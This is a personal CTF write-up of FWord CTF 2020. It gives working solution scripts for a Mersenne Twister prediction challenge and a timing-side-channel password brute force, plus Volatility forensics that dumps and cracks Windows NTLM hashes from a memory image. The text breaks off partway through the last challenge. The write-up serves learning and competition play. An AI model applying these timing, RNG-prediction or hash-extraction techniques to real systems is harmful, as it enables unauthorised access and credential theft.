






Once again, dear readers, it appears I will not do as promised. I mentioned that I would soon (finally) make a writeup on BSides Porto 2020's CTF's challenges.
Alas, that is not yet the case, since a very interesting CTF came up this last weekend (29/08/2020-30/08/2020) in which I decided to participate.
This seemed like a good challenge to test my skills, learn a lot and (more importantly for my ego) recover from the fiasco that was my attempt at the Google CTF 2020, in which I only got one challenge (`hardware/basics`).

It was also a good opportunity to showcase how fun and diverse CTFs can be: I have [a friend](https://github.com/pedromiguelsilva) that has recently become interested in these kinds of competitions, but had never participated in one.
After learning that, I started monitoring [CTFTime](https://ctftime.org) for a CTF that looked varied and accessible for beginners. We eventually settled on [FWord CTF](https://ctf.fword.wtf/).

**Outcome:** My friend managed to complete two challenges with me ([Twis Twis Little Star](#Twis-Twis-Little-Star) and [Secret Array](#Secret-Array)), and [our team (Pwntugal)](https://ctf.fword.wtf/teams/56) managed to place 46th out of 360 scoring teams (the teams that did not score were not shown in the scoreboard, so we can't know for sure how many there were). We were also the highest scoring "declared" Portuguese team (country identification was opt-in). Not bad for a team of two in which one of the members had basically 0 previous experience!

**Completed Challenges:** We completed 12 challenges, totaling 4749 points. The category distribution: 4 misc, 2 "bash" (interesting category, more details below), 5 forensics and 1 cryptography.

**Context for points:** The challenges started out at 500 points and their value would decrease as the number of solves increased (as is common in Jeopardy-style CTFs).

And finally, the challenge writeups in the order that we solved them:

## Twis Twis Litlle Star (Misc) - 470 points {#Twis-Twis-Little-Star}
(There is a typo in the challenge's name - I'm not sure if this is intentional so I'll include it)

After struggling for a bit trying Web, Reverse Engineering and Pwn challenges and also having working code for [Secret Array](#Secret-Array) this was actually the first challenge completed.

The problem statement:
> Randomness is a power ! You don't have a chance to face it.

We were given the specification of a URL and port to connect via netcat (as is common in CTFs).

Connecting via netcat we have a lot of interesting information (at the prompt I entered 1 to see what would happen next):

```
~
miguel@miguel-xps$ nc twistwislittlestar.fword.wtf 4445

	Welcome Everyone to our Land !!
	The good thing about Randomness that it is unpredictable !
	Unless you say otherwise , prouve me wrong and predict 20 consecutive randoms!


Random Number is : 501509088
Random Number is : 2205927734
Random Number is : 309934756

Can you predict the next ones ?
Your Prediction For the next one : 1
HAHAHA TOLD YOU YOU CANT PREDICT IT ;) ;) ;)!!!
The number was : 4165826118

Can you predict the next ones ?
Your Prediction For the next one :
```

Hmm, I have heard about predicting weak random number generators based on a stream of generated numbers before.
My first thought was some way to leak the seed or something similar, given enough random numbers.

After some googling I found [this tool](https://github.com/kmyk/mersenne-twister-predictor) which looks fit for the job.
Looking at the disadvantages section of the [Wikipedia page](https://en.wikipedia.org/wiki/Mersenne_Twister#Disadvantages) for the algorithm shows that indeed this is a problem with the algorithm.
Additionally, not only does the challenge's name seem to hint at this algorithm, but also the fact that it is used for python's default RNG shows us we are extremely likely to be in the right track.

As such, we created a small script that parses the output for the random numbers that were generated. After collecting enough (624) we can start predicting the random numbers and after 20 correct predictions we get the flag!

```python
from pwn import *
import random
# https://github.com/kmyk/mersenne-twister-predictor
from mt19937predictor import MT19937Predictor

r = remote('twistwislittlestar.fword.wtf', 4445)
predictor = MT19937Predictor()

r.recvuntil('Random Number is : ')
n = int(r.recvline().rstrip())
predictor.setrandbits(n, 32)
r.recvuntil('Random Number is : ')
n = int(r.recvline().rstrip())
predictor.setrandbits(n, 32)
r.recvuntil('Random Number is : ')
n = int(r.recvline().rstrip())
predictor.setrandbits(n, 32)

print('Got first 3 mr silva')

for _ in range(624-3):
    r.recvuntil('Your Prediction For the next one : ')
    r.send('1\n')
    r.recvuntil('The number was : ')
    n = int(r.recvline().rstrip())
    predictor.setrandbits(n, 32)
    print(_)

for _ in range(20):
    # print(r.recvuntil('Your Prediction For the next one : '))
    r.recvuntil('Your Prediction For the next one : ')
    next_rand = predictor.getrandbits(32)
    r.send(f"{next_rand}\n")

r.interactive()
```

In the script, the first 3 numbers are retrieved (there's a joke print there since my friend was doing this with me and said that the effort in fetching the first numbers was useless, but I insisted in getting them to speed up the runs, especially given that we were waiting for our script for [Secret Array](#Secret-Array) to finish anyway) and then we just send a stream of `1`s until we have fed enough numbers to the predictor library.
After this, we start predicting the numbers, and when we enter interactive mode we get the flag:

```
[*] Switching to interactive mode
Well you prouved me wrong , After all every thing is crackable !!
Take your flag
FwordCTF{R4nd0m_isnT_R4nd0m_4ft3r_4LL_!_Everyhthing_is_predict4bl3_1f_y0u_kn0w_wh4t_Y0u_d01nGGGG}
Your Prediction For the next one : $
```

## Time to Hack (Misc) - 495 points {#Time-to-Hack}

Once again, netcat connection details. When connecting the following can be viewed:

```
~
miguel@miguel-xps$ nc timetohack.fword.wtf 1337

			           _
			          |1]
			        .-|=====-.
			        | | mail |
			     ___|________|
			            ||
			            ||
			            ||   www
			     ,;,    ||   )_(,;;;,
			     <_>  \ ||   \|/ \_/
			     \|/  \\||  \\|   |//
			_____\|//_\\|///_\V/_\|//__


	┌───────────────────────────────────────────────────────┐
	│		Super Secure Mail Service		│
	└───────────────────────────────────────────────────────┘


 You have (1) unread message(s). Please login to proceed.
	Menu:
	[1] Login
	[2] Exit.


>>> 1
password:test

Login Failed.
	Menu:
	[1] Login
	[2] Exit.


>>>
```

Upon selecting `1` for Login, we are prompted for a password.
Given the challenge name and the fact that there are no other options to interact with the service, I suspected that the idea was that each correct character would introduce a delay and as such we can try all the characters and that will eventually result in the password.

As such, I made the following python script to "brute force" the password:

```python
from pwn import *
import time
import string


r = remote('timetohack.fword.wtf', 1337)

r.recvuntil("\n>>> ")

so_far = '7c80ee'

while True:
    max_time = 0
    maxed_char = ''

    for c in string.ascii_lowercase + string.digits:
        r.send("1\n")
        r.recvuntil("password:")

        print(f"Trying: {c}")

        start = time.time()
        r.send(f"{so_far + c}\n")
        r.recvuntil("\n>>> ")
        end = time.time()
        elapsed_time = end - start
        if elapsed_time > max_time + 0.3:
            max_time = elapsed_time
            maxed_char = c
        
    print(f"The max is: {max_time} -> {maxed_char}")
    so_far += maxed_char
    print(f"so far: {so_far}")

r.interactive()
```

When the script was near the end, the output was the following:

```
The max is: 5.695255994796753 -> 0
so far: 7c80ee65890
Trying: a
Trying: b
Trying: c
Trying: d
...
Trying: e
Traceback (most recent call last):
  File "solve.py", line 24, in <module>
    r.recvuntil("\n>>> ")
  File "/home/miguel/python_envs/ctf/lib/python3.8/site-packages/pwnlib/tubes/tube.py", line 310, in recvuntil
    res = self.recv(timeout=self.timeout)
  File "/home/miguel/python_envs/ctf/lib/python3.8/site-packages/pwnlib/tubes/tube.py", line 82, in recv
    return self._recv(numb, timeout) or b''
  File "/home/miguel/python_envs/ctf/lib/python3.8/site-packages/pwnlib/tubes/tube.py", line 160, in _recv
    if not self.buffer and not self._fillbuffer(timeout):
  File "/home/miguel/python_envs/ctf/lib/python3.8/site-packages/pwnlib/tubes/tube.py", line 131, in _fillbuffer
    data = self.recv_raw(self.buffer.get_fill_size())
  File "/home/miguel/python_envs/ctf/lib/python3.8/site-packages/pwnlib/tubes/sock.py", line 56, in recv_raw
    raise EOFError
EOFError
```

So probably we sent the right password and the server closed the connection. When we tried to receive the prompt to then send the next character the script crashed.

As such, the password is `7c80ee65890 + e = 7c80ee65890e`

Let's try that and... Bingo!

```
	Menu:
	[1] Login
	[2] Exit.


>>> 1
password:7c80ee65890e

Message:
	FwordCTF{_T1C-T0C_got_your_back_}
```

## Memory (Forensics) - 73 points {#Memory}
The Memory challenges were a series of challenges that operated over a `.raw` file (which ended up being a Windows memory dump).
The challenges were considered dependencies for one another, i.e. you could only submit the flag for Memory 3 after solving Memory 2.
Given the nature of the challenges this makes sense in order to keep you motivated by giving you new challenges. However, this was a bit troublesome for me since I got the solution for 5 when doing 3 and could not submit it for a good while. The clock was ticking with only some hours to go, so this was a bit stressful.

The problem statement:

> Flag is : FwordCTF{computername_user_password}

As typical with Forensics challenges that include a memory dump, the go-to tool is [Volatility](https://www.volatilityfoundation.org/).

I ended up struggling with this part a lot more than I should've, due to forgetting the "basics" of using Volatility: `imageinfo`.

I was wondering how all the commands I used to do were not working, since volatility was struggling to find the type of the image.
Well, as it were, I was not providing any profile to it...

After using `volatility -f foren.raw imageinfo` to get the profile (`Win7SP1x64`), we can now use the `envars` plugin to get the computer name:

`volatility -f foren.raw --profile=Win7SP1x64 envars | grep -i computer_name` gets us `FORENWARMUP`

Following https://www.aldeid.com/wiki/Volatility/Retrieve-password leads us to two plugins: `hivelist` and `hashdump`. By following the steps on the website we can get the usernames and their NTLM hashes:

```
root@kali:~/ctfs/fword2020# volatility -f foren.raw --profile=Win7SP1x64 hivelist
Volatility Foundation Volatility Framework 2.6
Virtual            Physical           Name
------------------ ------------------ ----
0xfffff8a000b0f410 0x000000002720d410 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
0xfffff8a000d00010 0x000000001ff75010 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
0xfffff8a000f8b410 0x00000000175e8410 \??\C:\Windows\System32\config\COMPONENTS
0xfffff8a00145f010 0x0000000027d9b010 \SystemRoot\System32\Config\DEFAULT
0xfffff8a0014da410 0x00000000275c0410 \SystemRoot\System32\Config\SAM
0xfffff8a0033fe410 0x0000000069de6410 \??\C:\Users\SBA_AK\ntuser.dat
0xfffff8a0036e7010 0x0000000069188010 \??\C:\Users\SBA_AK\AppData\Local\Microsoft\Windows\UsrClass.dat
0xfffff8a0038fe280 0x0000000068390280 \??\C:\System Volume Information\Syscache.hve
0xfffff8a00000f010 0x000000002cfef010 [no name]
0xfffff8a000024010 0x000000002d07a010 \REGISTRY\MACHINE\SYSTEM
0xfffff8a000058010 0x000000002d3ae010 \REGISTRY\MACHINE\HARDWARE
0xfffff8a000846010 0x000000002a0e9010 \Device\HarddiskVolume1\Boot\BCD
0xfffff8a000873010 0x0000000013880010 \SystemRoot\System32\Config\SOFTWARE
0xfffff8a000ab8010 0x0000000027455010 \SystemRoot\System32\Config\SECURITY
root@kali:~/ctfs/fword2020# volatility -f foren.raw --profile=Win7SP1x64 hashdump -s 0xfffff8a0014da410 -y 0xfffff8a000024010
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
fwordCTF:1000:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:514fab8ac8174851bfc79d9a205a939f:::
SBA_AK:1004:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```

Users `fwordCTF` and `SBA_AK` both have as password: `password123` (decrypted via [crackstation](https://crackstation.net/), as recommended in the article).

So the flag should be one of:
* `FwordCTF{FORENWARMUP_fwordCTF_password123}`
* `FwordCTF{FORENWARMUP_SBA_AK_password123}`

It was the second one.

## Secret Array (Misc) - 283 points {#Secret-Array}
This was one of the challenges that took the most effort due to a really simple problem. It was one of the challenges we started working on first (giving it a real try, not just testing things), but it was only solved around Sunday morning.

This challenge consisted once again of a netcat server. Upon receiving a connection we got the following text:

```
miguel@miguel-xps$ nc secretarray.fword.wtf 1337

I have a 1337 long array of secret positive integers. The only information I can provide is the sum of two elements. You can ask for that sum up to 1337 times by specifing two different indices in the array.

[!] - Your request should be in this format : "i j". In this case, I'll respond by arr[i]+arr[j]

[!] - Once you figure out my secret array, you should send a request in this format: "DONE arr[0] arr[1] ... arr[1336]"

[*] - Note 1: If you guessed my array before 1337 requests, you can directly send your DONE request.
[*] - Note 2: The DONE request doesn't count in the 1337 requests you are permitted to do.
[*] - Note 3: Once you submit a DONE request, the program will verify your array, give you the flag if it's a correct guess, then automatically exit.

START:
```

Thinking of the theoretical best case, assuming each number is different (which we cannot _not_ assume) we have to "touch" each item at least once.
So the trick here is likely to get the sum of each element with its neighbor or with the first item or so and then request an additional sum to figure out one of the elements and then "cascade" into the real values of all the other elements.

This was indeed what we did. We would request the sum of each element with its neighbor and collect it into an array. Afterwards, we can request one final sum: of elements 0 and 2.
With it we can extract the value of the element at the 0 index and then propagate this to retrieve every other element. Basically: $x_0+x_1 - x_1+x_2 + x_0+x_2 = 2x_0$ - now we just need to divide this by 2 and we will get the value of the first element!
Sadly, this was also the cause of **much** suffering. The numbers that the service used were very large and thus when the original code was ran (went something like `int(sums[0] - sums[1] + extra / 2)` since we "for some reason" were getting the numbers to all be in scientific notation) we actually were using floats due to the division and then converting back to an integer, which caused loss of precision and thus the results were off by a couple hundred units. This was even more ironic since "all of the numbers are even and as such should be evenly divisible by two so there cannot be any problem in the division!" - we thought. Overlooking this cost us a good amount of hours, but eventually we got it.

Unfortunately, in the despair of not having things work, we polluted the code a bit, even having some sanity checks with `assert`ions and an extra `test.py` file that generated random numbers and confirmed if our math checked out (in fact it did, since the tests weren't using large enough numbers... 🙃 a good way to be reminded of the value of **good** tests). I'll add the final solution file that changed our method from getting the sums of the neighbors to getting the sums of each number with the number at index 0. Despite the result being exactly the same, since I used this final script to solve the challenge and didn't confirm that the previous one worked after it was fixed (by switching to integer division via `//`), I'd rather post this one than the other one that is basically the same but untested:

```python
from pwn import *

r = remote('secretarray.fword.wtf', 1337)

r.recvuntil("START:\n")

zero_sums = []
for i in range(1336):
    r.send(f"0 {i+1}\n")
    curr = int(r.recvline().rstrip())
    zero_sums.append(curr)
    print(f"0+{i+1}={curr}")


answer = []

r.send("1 2\n")
raw_one_two = r.recvline()
print(f"raw 1-2: {raw_one_two}")
one_two = int(raw_one_two.rstrip())

# 0,1 + 0,2 - 1,2 -> 2*0 / 2 -> 0
# HAVING USED / INSTEAD OF // WAS THE PROBLEM HERE LMAO
zero_elem = (zero_sums[0] + zero_sums[1] - one_two) // 2
print(f"zero elem: {zero_elem}")

answer.append(zero_elem)
for i in range(1336):
    answer.append(zero_sums[i] - zero_elem)

print('Checking')

for i in range(len(zero_sums)):
    # print(i)
    if zero_sums[i] != answer[0] + answer[i+1]:
        print(f"{i} -> HASHDAHSDHAHDAHD")
    # assert sums[i] == answer[i] + answer[i+1] # Commenting just to not error and lose everything :)

numbers_str = " ".join(str(e) for e in answer)
print(f"answer n elems: {len(answer)}")
msg = f"DONE {numbers_str}\n"
print(msg)
r.send(msg)

r.interactive()
```

After the script submitted our solution, the connection is closed after receiving the following message with the flag:

```
Congratualtions! You guessed my secret array, here is your flag: FwordCTF{it_s_all_about_the_math}
```


## Memory 2 (Forensics) - 379 points {#Memory-2}
This challenge is a continuation of [Memory 1](#Memory-1).
The problem statement is as follows:

> I had a secret conversation with my friend on internet. On which channel were we chatting?

After using the `pstree` volatility plugin we can find that chrome is running.
Since the other programs are basically Windows services which do not look too interesting and `mspaint.exe`, I turned my attention to this browser.

Online I found [a set of plugins that seemed helpful](https://github.com/superponible/volatility-plugins) and an associated [blog post](https://blog.superponible.com/2014/08/31/volatility-plugin-chrome-history/).
Using these we can get a sense of the opened websites:

```
root@kali:~/ctfs/fword2020# volatility --plugins=/opt/volatility-plugins/ -f foren.raw chromehistory
Volatility Foundation Volatility Framework 2.6
Index  URL                                                                              Title                                                                            Visits Typed Last Visit Time            Hidden Favicon ID
------ -------------------------------------------------------------------------------- -------------------------------------------------------------------------------- ------ ----- -------------------------- ------ ----------
    84 https://www.facebook.com/                                                        Facebook - Log In or Sign Up                                                          2     0 2020-08-26 09:13:16.484337        N/A       
    83 http://facebook.co/                                                              Facebook - Log In or Sign Up                                                          1     1 2020-08-26 09:13:15.341831        N/A       
    81 https://twitter.com/FwordTeam                                                    Fword (@FwordTeam) / Twitter                                                          1     0 2020-08-26 09:12:59.645547        N/A       
    82 https://ctf.fword.wtf/                                                           Fword CTF                                                                             1     0 2020-08-26 09:13:01.342381        N/A       
    86 https://youtube.com/                                                             YouTube                                                                               1     1 2020-08-26 09:13:21.325404        N/A       
    79 https://discord.gg/beEcn8Q                                                       FwordCTF                                                                              1     0 2020-08-26 09:12:58.178974        N/A       
    80 https://discord.com/invite/beEcn8Q                                               FwordCTF                                                                              1     0 2020-08-26 09:12:58.178974        N/A       
    77 http://fword.wtf/                                                                Fword CTF                                                                             1     0 2020-08-26 09:12:55.299362        N/A       
    78 https://fword.wtf/                                                               Fword CTF                                                                             1     1 2020-08-26 09:12:55.299362        N/A       
    92 https://www.youtube.com/watch?v=sT1TFWDvL78&list=RD1XsfrpqXPc0&index=2           Lomepal - Trop Beau (Emma Péters Cover & Crisologo Remix) - YouTube                  1     0 2020-08-26 09:16:56.579216        N/A       
    90 https://webchat.freenode.net/                                                    Kiwi IRC - The web IRC client                                                         1     1 2020-08-26 09:13:32.517035        N/A       
    89 http://webchat.freenode.net/                                                     Kiwi IRC - The web IRC client                                                         1     0 2020-08-26 09:13:32.517035        N/A       
    91 https://gofile.io/d/k2RkIS                                                       Gofile                                                                                1     0 2020-08-26 09:16:55.222846        N/A       
    88 https://www.youtube.com/watch?v=1XsfrpqXPc0&list=RD1XsfrpqXPc0&start_radio=1     Gabriel Vitel - Feeling Better - YouTube                                              1     0 2020-08-26 09:13:25.497121        N/A       
    87 https://www.youtube.com/                                                         YouTube                                                                               3     0 2020-08-26 09:13:25.489943        N/A       
    85 http://youtube.com/                                                              YouTube                                                                               1     0 2020-08-26 09:13:21.325404        N/A       
    93 https://www.youtube.com/watch?v=h3EEhWecuoA&list=RD1XsfrpqXPc0&index=3           Izzamuzzic - Adventure (Original Mix) - YouTube                                       1     0 2020-08-26 09:21:41.640325        N/A       
```

Then I struggled for a while, since I had found [some other chrome-related plugins]() that claimed to be able to print the pages from the memory dump, getting their html and such.
However, I did not manage to get any of them to work. They either just hung or gave me no information at all.

As such, I decided to go for the manual approach: I dumped the process's memory (using volatility's `memdump`) and just went for `strings` instead:
```
root@kali:~/ctfs/fword2020# strings -e l 3700.dmp | grep -A5 -B5 -Ei 'kiwi.*irc'
Kiwi IRC - The web IRC client                                                                                                                                                                                                              
audio.                                                                                                               
lient                     
e wthe                                             
Kiwi IRC - The web IRC client                   
e w'                                                                                                                 
Kiwi IRC - The web IRC client                            
ret/                         
e wclient                                    
kiwi                        
FwordCTF{top_secret_channel} 
```
(The output is truncated, there was a lot more above and below this)

`-e l` here specifies that little endian should be used (since this is a windows machine).

So we got the flag! `FwordCTF{top_secret_channel}`

## Memory 3 (Forensics) - 405 points {#Memory-3}
The first part of this challenge was solved during [Memory 2](#Memory-2).
I also managed to somehow solve [Memory 5](#Memory-5) while doing this one which was pretty funny.

The problem statement for the challenge is:
> He sent me a secret file , can you recover it ?
> 
> PS: NO BRUTEFORCE NEEDED FOR THE PASSWORD

When looking at the output of the `chromehistory` plugin and finding the link to gofile.io, I obviously clicked it and downloaded a file called `important.zip` that was hosted there.
Sadly, it was password protected so I put it off for a while after trying `fcrackzip` with `rockyou.txt` as a wordlist (I had not unlocked this challenge yet so I didn't know that brute force was not intended).

When trying to unzip the file with the wrong password a file was "extracted" (it was empty), so we knew that the zip file included a certain `flag1.png`.
As such, since there was a `mspaint.exe` process, my first thought was to try and extract the image from there, assuming that it must be the one in the zip.
However, despite getting the steps right for exploring that process, I found that the flag I reached did not work, as it was meant for the final challenge, [Memory 5](#Memory-5).

After struggling with that and checking with the challenge author if I had misread the flag, they mentioned that the flag was right, but the challenge I was trying to submit it into was not the correct one.
So, I started searching elsewhere.

I had the idea that if the file was sent via a file sharing service, then it might've been posted to irc.
I kept trying to search for the channel name (previous flag), "irc" and the gofile url in the memory dump of the process. After a while, having even created a file with the result of the `strings` command to make searching faster, I found a string that looked like a password: `w0rdsecretp4ss`.
My first instinct was to reverse it to spell `secretp4ssw0rd`, but after searching the file some more, I found the complete string: `fw0rdsecretp4ss`.
We can now unzip `important.zip` and submit the flag contained inside:


The flag is: `FwordCTF{dont_share_secrets_on_public_channels}`

## Memory 4 (Forensics) - 492 points {#Memory-4}
I solved this challenge in an unintended way that made it much easier to do.
The problem statement:

> Since i'm a geek, i hide my secrets in weird places

After noticing that the last two flags contained the word "secret" and the problem statement did as well, I tried `grep`ping chrome's memory dump for it.

Success!

```
news
windows
0x00000001
0x00000000
0x00000000
0x00000000
 1234567890abcdefghijklmnopqrstuvwxyz-=\[];',./`
 !@#$%^&*()ABCDEFGHIJKLMNOPQRSTUVWXYZ_+|{}:"<>?~
 1234567890abcdefghijklmnopqrstuvwxyz-=\[];',./`
 !@#$%^&*()ABCDEFGHIJKLMNOPQRSTUVWXYZ_+|{}:"<>?~
 1234567890abcdefghijklmnopqrstuvwxyz-=\[];',./`
 !@#$%^&*()ABCDEFGHIJKLMNOPQRSTUVWXYZ_+|{}:"<>?~
FwordCTF{hiding_secrets_in_regs}
@mmres.dll,-5824
Complete Navigation
ERTA
\Device\HarddiskVolume2\ProgramData\Microsoft\Windows\Start Menu\Programs
EGISTR
CHIN
```

The flag is: `FwordCTF{hiding_secrets_in_regs}`

After seeing the strings near the flag and its content (plus the problem statement) I contacted the challenge author to check if this was an unintended solution.
They confirmed it was. The intended solution was to "go through registries, do ntuser.dat, print key and find FLAG" according to them.

## Memory 5 (Forensics) - 495 points {#Memory-5}
This was the most fun of the Memory challenges in my opinion.
The problem statement is as follows (I just noticed I did not look at these otherwise I would've gotten a better image):

> I'm an artist too, i love painting. I always paint in these dimensions 600x300

From this and the previous exploration of processes, everything points to having a look at `mspaint.exe` now!
As mentioned before I extracted the image from it, by following the steps in [this writeup](https://www.rootusers.com/google-ctf-2016-forensic-for1-write-up/).

Put simply, we just have to:
1. Extract the process's memory using volatility's `memdump` with paint's PID
1. Rename the file from `.dmp` to `.data`
1. Search around for the correct offset to get the image

I have some screenshots of this process, which was pretty fun to do:



First, importing the image into GIMP as raw data.



After GIMP kept crashing on my Kali VM I switched to trying it in the host system. It crashed whenever I tried moving the width or height sliders.
Sadly, this was not fixed with this switch. The only thing that helped was to not use the sliders and instead just input the values directly.
